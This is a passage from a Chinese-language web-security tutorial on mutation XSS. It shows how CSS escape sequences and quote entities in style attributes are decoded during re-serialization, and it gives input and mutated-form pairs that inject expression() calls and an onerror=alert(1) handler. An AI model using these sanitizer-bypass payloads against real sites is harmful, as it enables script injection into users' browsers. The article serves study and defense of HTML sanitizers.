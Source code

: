 可以看到，突变后的形式中，原输入的font-family的属性值中的所有转义形式均被解码回它原有的形式。其中\27被解码为单引号，提前闭合掉了FONT-FAMILY属性，接着插入了我们自定义的x属性，利用expression来执行Javascript代码。如果结合我们先前已经有所了解的CSS 中的一些XSS技巧，将会让情况看起来变得更加糟糕。例如以下代码，看起来，我们可以把expression变得乱七八糟。

```
输入形式：

<p style="font-family:'ar&#x5c;27 \3bx\3a ex\5cpre\2f**\2fssion\28 xss\28 1\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:ex\pre/**/ssion(xss(1));ial'"></P>

```

0x05 CSS中双引号实体或转义导致的mXSS
------------------------

* * *

接着上一部分，依然是CSS中所存在的问题，既然反斜线转义会被解码为它原本的形式，那么会出现下面这样一种情况。

```
输入形式：

<p style="font-family:'aaaa\22\3e\3cimg onerror ….';"></p>

预期的突变形式：

<p style="font-family:'aaaa"><img onerror ….';"></p>  

```

这样一来，不就可以插入任意标签了么？想法很好。但实际上如何呢？

```
实际的突变形式：

<P style="FONT-FAMILY: 'aaaa'><img onerror ….'"></P>

```

并非我们想象的那样，而是我们的\22竟然变成了单引号，按照原文作者的说法，我们只能对这种奇怪的结果所产生的原因做出推测：\22 先被解码为 "，但考虑到双引号会闭合掉style属性，所以浏览器渲染引擎将"进一步转变为了'，以避免这种情况的发生。当然，这也意味这，除了 \22，\0022 之外，HTML实体如：`&quot; &#x22; &#34;`等双引号的表示形式均可导致这类问题。

0x06 CSS属性名中的转义所导致的mXSS
-----------------------

* * *

前2部分都讲到的CSS属性值中的情况，如果CSS属性名中出现了反斜线转义，又会如何？见下面代码。

```
输入形式：

<img src=1 style="font-fam\22onerror\3d alert\28 1\29\20 ily:'aaa';">

突变形式：

<IMG style="font-fam"onerror=alert(1) ily: ''" src="1"> 

```

